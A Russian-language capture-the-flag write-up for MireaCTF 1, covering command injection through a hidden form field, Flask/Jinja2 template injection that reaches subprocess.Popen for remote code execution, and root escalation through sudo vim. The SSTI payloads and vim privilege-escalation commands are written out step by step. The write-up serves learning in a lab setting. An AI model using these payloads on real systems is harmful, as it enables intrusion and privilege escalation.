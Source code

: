 # MireaCTF 1 (06.11.2022)

---

## Task 1: Date Service

Заходим на сайт и нажимаем на кнопку «Get Date». После чего видим появившуюся дату:

![ScreenShot](screenshots/1.png)

Зайдем в инспектор и посмотрим на исходный код страницы. Из интересного сразу бросается в глаза скрытый «input» (hidden):

![ScreenShot](screenshots/2.png)

Попробуем ввести в поле «value» другое значение, например, «whoami» (проверка на RCE – Remote code execution – удаленное внедрение кода на сервере):

![ScreenShot](screenshots/3.png)

В итоге получаем ответ «user», что означает наличие RCE:

![ScreenShot](screenshots/4.png)

Далее посмотрим, какие команды нам доступны, при помощи ввода «help»:

![ScreenShot](screenshots/5.png)

Список команд:

![ScreenShot](screenshots/6.png)

После этого пробуем ввести «ls», но результата не получаем, поэтому попробуем «echo \*»:

![ScreenShot](screenshots/7.png)

![ScreenShot](screenshots/8.png)

Как итог, «echo \*» сработал, а это означает, что мы находимся в командной оболочке Bash. Осталось только прочитать флаг.

![ScreenShot](screenshots/9.png)

Флаг: flag{4n07h3r_w4y_t0_r34d_7h3_f1l3}

---

## Task 2: On takeoff! – Part 1

Переходим по ссылке и видим стартовую страницу:

![ScreenShot](screenshots/10.png)

Попробуем перейти в какую-нибудь другую директорию. Переходим видим 404, но после слова Page, вывелась директория, в которую мы хотели перейти. Попробуем вместо директории ввести что-то по интереснее. Ориентируемся на шаблон:

![ScreenShot](screenshots/11.png)

Вводим выражение:

![ScreenShot](screenshots/12.png)

Результат – вычисление введенного выражения:

![ScreenShot](screenshots/13.png)

Впишем в URL `{{ config.items() }}`, в результате получим словарь с конфигурационными значениями flask.

![ScreenShot](screenshots/14.png)

![ScreenShot](screenshots/15.png)

Если до вас никто не решал этот таск, то у вас будет меньше значений, так как еще никто не подключил библиотеку os.

![ScreenShot](screenshots/16.png)

Далее пишем `{{ ''.__class__.__mro__ }}`, это выведет список существующих классов (впереди две одинарные кавычки):

![ScreenShot](screenshots/17.png)

![ScreenShot](screenshots/18.png)

Нам нужны подклассы класса object, пишем `{{''.__class__.__mro__[1].__subclasses__() }}`

![ScreenShot](screenshots/19.png)

![ScreenShot](screenshots/20.png)

Получаем список, в нем ищем что-то, что позволит исполнять команды. В данном случае это **subprocess.Popen**

Теперь нужно узнать какой у него номер в этом списке. Для этого пишем `{{''.__class__.__mro__[1].__subclasses__()[266:] }}` и подбираем такое число, чтобы subprocess.Popen был в начале списка.

![ScreenShot](screenshots/21.png)

(не получилось)

Получается `{{ ''.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[394:] }}`:

![ScreenShot](screenshots/22.png)

![ScreenShot](screenshots/23.png)

Теперь, когда мы нашли нужны класс, попробуем выполнить команду на сервере (RCE).

![ScreenShot](screenshots/24.png)

![ScreenShot](screenshots/25.png)

Команда исполнилась! Теперь найдем и прочитаем флаг:

![ScreenShot](screenshots/26.png)

![ScreenShot](screenshots/27.png)

Первый флаг мы получили! Но нам этого мало, нам нужно все.

Флаг: flag{py7h0n_fl45k_5s71}

---

Task 2: On takeoff! – Part 2

Повышаем привилегии. Проверяем, какие программы нам доступны с правами рута без пароля:

![ScreenShot](screenshots/28.png)

![ScreenShot](screenshots/29.png)

Видим, что мы можем запускать **/usr/bin/vim** от имени рута без пароля. Мы можем повысить свои привилегии с его помощью, так как он умеет выполнять системные команды.

Гуглим что-то вроде «vim privesc» и попадаем на сайт: https://gtfobins.github.io/gtfobins/vim/

![ScreenShot](screenshots/30.png)

Первый вариант нам подойдет, но если его вставить в URL, то получим ошибку, так как шаблонизатор не может обработать знаки.

Команда: `sudo /usr/bin/vim –c ‘:!ls /root/’` - её мы преобразуем в base64 и вставляем в наш шаблон:

![ScreenShot](screenshots/31.png)

Результат:

![ScreenShot](screenshots/32.png)

Обнаруживаем что страница долго висит, а потом падает в 504. Это происходит из-за того, что vim работает в интерактивном режиме, а браузер его не поддерживает. В итоге нам нужно переделать команду так, чтобы vim выполнял команду и закрывался без перехода в интерактивный режим. Немного изучив документацию vim’а у получается такая команда:

`sudo /usr/bin/vim --cmd ':!ls /root/' -ec 'qa!'` – её тоже в base64 и в шаблон

Результат:

![ScreenShot](screenshots/33.png)

Все работает! Забираем флаг

`sudo /usr/bin/vim --cmd ':!cat /root/root_flag.txt' -ec 'qa!'` - тоже в base64 и в шаблон

![ScreenShot](screenshots/34.png)

Флаг: flag{35c4p3_fr0m_v1m}

---
